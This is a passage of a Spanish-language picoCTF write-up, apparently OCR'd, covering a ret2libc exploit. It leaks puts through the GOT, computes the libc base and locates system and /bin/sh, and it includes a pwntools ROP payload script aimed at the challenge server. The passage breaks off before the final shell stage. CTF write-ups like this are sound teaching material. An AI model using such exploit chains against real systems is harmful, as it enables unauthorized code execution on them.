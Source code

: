 ```422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5```

libc = puts - offset_puts
log.info(f'Direccion base de libc: {hex(libc)}')  
```

Ahora ya tenemos la direccion base de libc:

```bash
python3 exploit.py                                                ─╯
[+] Opening connection to mercury.picoctf.net on port 42072: Done
[*] Direccion de puts en tiempo de ejecucion: 0x7f9fa002ca30
[*] Direccion base de libc: 0x7f9f9ffac000
[*] Closed connection to mercury.picoctf.net port 42072
```

### Direccion de system y /bin/sh

System:

```
readelf -s libc.so.6 | grep system                                       ─╯
  1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

/bin/sh:

```
strings -atx libc.so.6 | grep /bin/sh                                                                                                                ─╯
 1b40fa /bin/sh
```
Esto lo hacemos por que debemos de llamar a system con /bin/sh, y para eso debemos de usar otra vez ```pop rdi``` 

Adicionalmente ocupamos la direccion de ```ret``` antes de llamar a system por cuestiones de stack alignment (la direccion la saque con ropper)

### Exploit final

```py
from pwn import *

host = "mercury.picoctf.net"
puerto = 42072 #<-- Esto lo cambias

p = remote(host,puerto)

padding = b"A" * 136
pop_rdi = 0x400913
puts_got = 0x601018
puts_plt = 0x400540
main = 0x400771

payload = padding
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.recvuntil(b'WeLcOmE To mY EcHo sErVeR!\n')
p.sendline(payload)
p.recvline()

puts = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Direccion de puts en tiempo de ejecucion: {hex(puts)}")

offset_puts = 0x80a30
```